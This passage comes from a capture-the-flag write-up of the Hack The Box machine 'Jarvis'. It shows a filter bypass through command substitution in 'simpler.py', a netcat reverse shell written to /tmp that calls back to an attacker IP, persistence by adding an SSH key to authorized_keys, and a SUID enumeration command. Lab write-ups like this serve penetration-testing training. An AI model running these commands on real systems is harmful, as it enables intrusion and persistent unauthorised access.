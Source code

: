 Looks like this method won't work very well, as we get no response to our commands. Similarly, doing something like `$(nc -e /bin/sh 10.10.xx.xx 7600)` won't work, as there is a `-` in the command, so we'd get flagged.

What we can do though, is write our command to a file, and simply read the file as the command.

> Open a listener with `nc -lvnp 7600` before doing this.

```bash
echo 'nc 10.10.15.147 7600 -e /bin/bash' > /tmp/revshell.sh
chmod +x /tmp/revshell.sh
```

So breaking this down, we create the shell script containing the netcat reverse shell, and make it executable with `chmod +x`. When we run `simpler.py` again, we simply feed it the command to run the script, which is `$(/tmp/revshell.sh)`. This gives us our reverse shell back.

From here, we're running as `pepper`, so we can simply add our own SSH Public keys to `/home/pepper/.ssh/authorized_keys` to gain SSH access with `ssh pepper@10.10.10.143`.

![](/assets/htb-jarvis/ssh_pepper.png)

We can now grab `user.txt` directly form the home directory we're already in.

![](/assets/htb-jarvis/user_proof.png)

### Exploit `systemctl`

Part of enumeration of privilege escalation should always be too look for binaries with SETUID bit set. The command `find / -perm -4000 2> /dev/null` allows us to list them out easily.
